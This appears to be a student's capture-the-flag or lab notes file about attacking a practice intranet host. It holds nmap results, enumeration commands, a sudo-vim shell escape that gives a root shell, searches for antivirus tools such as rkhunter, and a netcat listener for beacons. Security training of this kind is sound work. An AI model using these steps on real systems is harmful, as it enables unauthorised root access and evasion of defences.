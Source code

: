```
53 tcp OPEN



cat /etc/hosts (for dns info)

192.168.150.253 Donovian-Intranet

Nmap scan report for 192.168.150.253
Host is up (0.0017s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
80/tcp   open  http
514/tcp  open  shell          (rsyslog)
3201/tcp open  cpq-tasksmart        (SSH Port)



INTRANET
----------


cat /etc/hosts        #gives flag for dns

ls /etc/rsyslog.d       #look individually in these files

cat /etc/rsyslog.conf



getting root privs (you already ran sudo -l and saw you have the ability to sudo)

	1. create a text file in root's home directory
		> sudo vim /root/file.txt

	2. inside your vim, press ':' to enter command mode, then type the following
		!/bin/bash

	3. now look at who you are
		> root@lin

	4. now search through all your files/directories (particularly conf files)
		> ls -a
	
searching for antivirus
	focus on kaspersky, rkhunter
	
find / -type f -iname "*rkhunter*"

cat /etc/rkhunter.conf



looking at crons:

crontab -l			#view scheduled crons


receiving beachons: try netcat listener on beacon range

nc -lvp <port_in_range>


```